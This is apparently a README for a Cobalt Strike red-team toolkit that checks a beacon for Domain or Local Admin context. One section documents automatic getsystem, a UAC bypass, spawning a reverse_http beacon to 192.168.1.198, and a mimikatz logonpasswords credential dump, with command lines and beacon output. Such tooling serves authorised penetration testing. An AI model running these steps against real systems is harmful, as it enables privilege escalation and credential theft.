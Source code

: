 # CobaltStrike-ToolKit
I’m sure there are better ways of doing all of this but as of right now there hasn’t been much put out so this will do :)

## Work Conducted by:
- Alexander Rymdeko-Harvey [Twitter] @Killswitch-GUI -- [Web] CyberSydicates.com
- Brian R [Twitter] @brian_psu
-
## CheckDA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent user name.
While using .NET 3.5 to perform Domain Group enumeration (PowerShell 2+ safe). This allows for alerting on Pen-Test of a DA level beacons. 
### Usage
Load up the Script:
```
aggressor> load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
[+] Load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
```
When a initial beacon comes in you receive a pop up box and will see:
```
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck -Initial True
[+] host called home, sent: 2527 bytes
[+] received output:
Found-DA-User: admin
```
### Independent Command:
```
beacon> checkda
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck
[+] host called home, sent: 2519 bytes
[+] received output:
[!] Currently DA Context
```
## CheckLA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent context.
While using .NET 3.5 to perform Local Group enumeration and Token Context (PowerShell 2+ safe). This has the following context:
1. Checks for Initial Beacons Context (Elevated or Local Admin)
2. If the beacon is elevated it will Auto Getsystem, and run LogonPasswords
3. If the beacon in Local Admin but not in a high integrity process it will run Bypass UAC on that beacon
4. This will than launch a beacon in a high integrity beacon causing the first event to fire running LogonPasswords

### Usage 
Run this with all the other scripts
```
aggressor> load Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
when a Initial Beacon comes in:
```
aggressor> reload Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
If it returns as a Local Admin it will perform Bypass UAC:
```
[*] Tasked beacon to spawn windows/beacon_http/reverse_http (192.168.1.198:80) in a high integrity process
[+] host called home, sent: 76304 bytes
```
The new beacon will run logonPassword as desired :)
```
[*] Tasked beacon to get SYSTEM
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 444597 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
```
### Independent Command 
```
beacon> checkla
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/CheckLAdminContext.ps1
[*] Tasked beacon to run: Invoke-LocalAdminCheck
[+] host called home, sent: 2622 bytes
[+] received output:
[!] Currently-in-LocalAdmin-Context
```
## DA-Watch - Set of Commands

Developed by @britz to perform the same DA monitoring but using all Aggressor script to perform DA Group checks (OPSEC). This has a few commands and requires you to update the list of DA members. this can be done with a few commands and is very effective way of checking for DA without loading PowerShell. On Pen-test's its not a big problem but on a red team OP this may be a No-Go.

### Usage
 load up the script
```
aggressor> load DA-Watch.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/DA-Watch.cna
```
Run this command and it will populate the known DA list
```
shell net group /domain "Domain Admins"
```
### uaddDA - Command
Adds a user to the DA list
### uremDA - Command
Removes a user from the DA list
### ulistDA - Command
Prints a list of the current DA's to the Console
### uhookOn
Sets the hook to follow beacon output to "On". This will watch all output for Shell net group...
### uhookOff
Turns off the watch hook and set the follow beacon output to off.

### Credential Checks
Every time a Cred is added to the Cred data model a credential is checked against the known list of creds. If it matches it posts to the event log! 




